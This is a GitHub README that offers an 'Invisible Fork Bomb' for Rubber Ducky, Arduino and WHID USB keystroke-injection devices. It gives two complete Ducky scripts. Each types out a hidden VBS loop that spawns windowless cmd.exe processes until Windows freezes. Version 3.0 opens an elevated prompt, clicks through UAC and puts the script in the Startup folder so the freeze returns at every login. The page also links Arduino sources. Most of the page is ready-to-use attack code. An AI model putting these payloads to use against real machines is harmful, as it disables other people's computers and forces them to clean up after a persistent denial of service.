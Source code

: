 # Invisible Fork Bomb for Rubber Ducky, Arduino and WHID [Windows 7 and upper]

**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it sets the vbs file into the startup.

**Author:** BlueArduino20

<h2>Code for Ducky [2.0]</h2>

<pre><code>DELAY 1000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
ENTER
</pre></code>

<h2>Code for Ducky [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<pre><code>DELAY 1000
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

<h2>Code for Arduino [2.0]</h2>

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_2.0.ino">Invisible_fork_bomb_2.0.ino<a>

<h2>Code for Arduino [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_3.0.ino">Invisible_fork_bomb_3.0.ino<a>

